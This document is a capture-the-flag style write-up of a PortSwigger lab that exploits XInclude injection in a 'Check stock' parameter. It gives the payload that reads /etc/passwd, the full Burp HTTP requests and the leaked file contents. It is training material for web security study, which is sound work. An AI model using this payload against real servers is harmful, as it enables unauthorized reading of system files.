 ## Exploiting XInclude to retrieve files

**Title:** Exploiting XInclude to retrieve files. [Go](https://portswigger.net/web-security/xxe/lab-xinclude-attack) 

**Description:**  This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed. Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack. To solve the lab, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file. 

## Preface

Attack surface for XXE injection vulnerabilities is obvious in many cases, because the application's normal HTTP traffic includes requests that contain data in XML format. In other cases, the attack surface is less visible. However, if you look in the right places, you will find XXE attack surface in requests that do not contain any XML.

**XInclude attacks**

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

``` XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My Thought

We visited a product page and clicked "Check stock", intercepted the resulting POST request in Burp Suite. Setting the value of the `productId` parameter to:`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>` we should see the content of `/etc/passwd` file.

**Request**

``` HTTP
POST /product/stock HTTP/2
Host: 0a0700db04b2890981adfc3c00530052.web-security-academy.net
Cookie: session=sVzXZlOKLLpmNYkUWrOQztKffDXrS3Yd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0700db04b2890981adfc3c00530052.web-security-academy.net/product?productId=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: https://0a0700db04b2890981adfc3c00530052.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=%26ENTITY&storeId=1
```
**Response**

``` HTTP
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 47

"Entities are not allowed for security reasons"
```
Notice that `Entities are not allowed for security reasons` this means that this web application supports XML.

**Request**

``` HTTP
POST /product/stock HTTP/2
Host: 0a0700db04b2890981adfc3c00530052.web-security-academy.net
Cookie: session=sVzXZlOKLLpmNYkUWrOQztKffDXrS3Yd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0700db04b2890981adfc3c00530052.web-security-academy.net/product?productId=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: https://0a0700db04b2890981adfc3c00530052.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

**Response**

```HTTP
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2339

"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false"
```

We solved the lab.

